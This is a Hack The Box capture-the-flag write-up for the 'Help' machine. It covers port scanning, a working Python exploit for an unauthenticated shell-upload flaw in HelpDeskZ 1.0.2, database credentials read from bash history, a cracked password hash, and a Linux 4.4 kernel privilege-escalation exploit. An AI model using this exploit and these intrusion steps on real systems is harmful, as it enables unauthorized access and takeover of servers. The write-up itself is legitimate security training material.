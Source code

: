 ```yaml
---
layout: post
title: "HackTheBox: Help write-up"
date: 2019-02-07
excerpt: "File upload that leads to user and then kernel exploit. Too easy right? "
tags: [Hack The Box, Pentesting, File Upload, Kernel exploit]
comments: true
feature: https://www.hackthebox.eu/storage/avatars/2f6225d90a3caf56699c3d93e8779d6b.png
---
```


# Hack The Box: Help machine write-up

This is a cool machine based on a file upload which leads to user followed by a kernel exploit that grants us root. Not quite complicated right? The machine is running on port 10.10.10.121.

### Enumeration

First, I enumerate open ports to discover the services running in the machine:

```sh
nmap -sV -sC -oA nmap/initial 10.10.10.121
```

```console
# Nmap 7.70 scan initiated Wed Feb  6 19:50:38 2019 as: nmap -sV -sC -oA nmap/initial 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up (0.031s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  6 19:50:53 2019 -- 1 IP address (1 host up) scanned in 15.03 seconds
```

As we can see, there is SSH enabled, a node.js instance on port 3000 and a web server on port 80. I didn't even use the node service, so I think this attack vector was a bit unintended. It's the only one that I found, though.

*Accessing web server on port 80*

![Img](/assets/posts_details/Help/images/apache.png "Img")

Upon finding the Apache2 default page I decided to use DirBuster to try to find juicy things. The most interesting things found were these two directories:

* ```/support/```
* ```/support/uploads/tickets/``` (this second one will be used later)

*HelpDeskZ running on ```/support```*

![Img](/assets/posts_details/Help/images/hd1.png "Img")

We see that apart from logging in there is as well the possibility of uploading a ticket.

*Ticket submission page*

![Img](/assets/posts_details/Help/images/hd2.png "Img")

And guess what, it can include a file! Looks like we may have found something exploitable.

*Possibility to upload a file*

![Img](/assets/posts_details/Help/images/hd3.png "Img")

### Exploit

First of all, I tried to upload a PHP file, but got this error.

*Error upon uploading a PHP file*

![Img](/assets/posts_details/Help/images/file_blocked.png "Img")

So then I searched on the internet and came across a python code that was supposedly exploiting this file upload feature:

```py
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

Apparently, it tries to brute-force the name of a file, which is an md5 hash of the file + the time at which it was created. Weird... Then, I found out the code was in GitHub! You can find it [here](https://github.com/evolutionscript/HelpDeskZ-1.0). So I started going through it and found out a really interesting thing on this piece of code:

*Vulnerable piece of code*

![Img](/assets/posts_details/Help/images/github1.png "Img")

![Img](/assets/posts_details/Help/images/github2.png "Img")

Unbelievable! They are storing the file and afterwards doing the security check! The developers must have thought that security would be kept by just hashing the name of the file with the upload time.

It took me some time to realise why the script wasn't working, but I finally realised that it was because the path wasn't right, all files were being uploaded to ``/support/uploads/tickets/``. I tried uploading an image to check this and it worked!

*Image uploaded path*

![Img](/assets/posts_details/Help/images/image_upload.png "Img")

Now I just needed to upload a shell and launch the script! Surprisingly, we're already user ``help``!. So I tried reading the ``user.txt`` hash and got it without problem:

*Getting a reverse shell*

![Img](/assets/posts_details/Help/images/shell.png "Img")

### Privilege escalation

I inspected the system and found inside the ``.bash_history`` file this entry:

```mysql -uroot -phelpme support```

So I ran it and got different tables, from which ``users`` was definitely the most interesting one:

```console
mysql> show tables;
+------------------------+
| Tables_in_support      |
+------------------------+
| articles               |
| attachments            |
| canned_response        |
| custom_fields          |
| departments            |
| emails                 |
| error_log              |
| file_types             |
| knowledgebase_category |
| login_attempt          |
| login_log              |
| news                   |
| pages                  |
| priority               |
| settings               |
| staff                  |
| tickets                |
| tickets_messages       |
| users                  |
+------------------------+
19 rows in set (0.00 sec)

mysql> select * from users;
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
| id | salutation | fullname | email                 | password                                 | timezone        | status |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
|  1 |          0 | helpme   | helpme@helpme.com     | c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca | Europe/Brussels |      1 |
|  2 |          0 | xcvxv    | lolololol@yopmail.com | ec09fa0d0ba74336ea7fe392869adb198242f15a | NULL            |      1 |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
9 rows in set (0.00 sec)
```

I cracked helpme's hash ``c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca`` and got ``Welcome1``. Then, I tried loggin in as ``help`` through SSH with that password and success! That made things so much easier.

Getting back to the privesc part, I ran ``uname -a`` to find the kernel's version to get the following:

```
help@help:~$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

It was obviously Linux Kernel 4.4 so I used ``searchsploit`` to try to find some useful exploit. And indeed there was a local privilege escalation, which I finally used.

*Finding the right exploit with searchsploit*

![Img](/assets/posts_details/Help/images/searchsploit.png "Img")

I copied the C code to the machine serving it with python SimpleHTTPServer and then using wget. Once there, I just needed to compile and run it!

*Getting root*

![Img](/assets/posts_details/Help/images/root.png "Img")

Note: I'll keep the hash here in case it is needed to read write-ups (b7fe6082dcdf0c1b1e02ab0d9daddb98).

Really nice machine! Kudos to the creator! I hope you enjoyed reading.

---
<center><i>Diego Bernal Adelantado</i></center>
